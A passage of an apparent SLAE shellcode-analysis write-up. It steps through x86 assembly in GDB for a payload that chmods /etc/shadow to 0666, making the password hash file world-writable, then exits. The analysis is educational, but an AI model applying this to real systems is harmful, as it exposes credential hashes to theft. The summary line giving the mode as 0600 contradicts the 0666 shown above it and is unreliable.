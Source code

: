 This is then POP'd off the stack for use in EBX. 

Following that we see a PUSH of 0x1b6. Checking this in python we can see it translates to 0666 in octal.

```python
root@kali:~/SLAE# python3
Python 3.6.4 (default, Jan  5 2018, 02:13:53) 
[GCC 7.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> oct(0x1b6)
'0o666'
```

Let's verify everything in GDB before the interrupt is called. 

```
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x40204a ("/etc/shadow")
ECX: 0x1b6 
EDX: 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff368 --> 0x0 
EIP: 0x40205d --> 0x16a80cd
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402056 <code+22>:	pop    ebx
   0x402057 <code+23>:	push   0x1b6
   0x40205c <code+28>:	pop    ecx
=> 0x40205d <code+29>:	int    0x80
   0x40205f <code+31>:	push   0x1
   0x402061 <code+33>:	pop    eax
   0x402062 <code+34>:	int    0x80
   0x402064 <code+36>:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xbffff368 --> 0x0 
```

And we can see the chmod() syscall is all set up as follows:

```
chmod("/etc/shadow", 0600)
```

## exit()

All that is left to do is a simple exit() syscall. The assembly looks as such:

```nasm
push   0x1			; exit()
pop    eax			;
int    0x80			; execute exit()
```
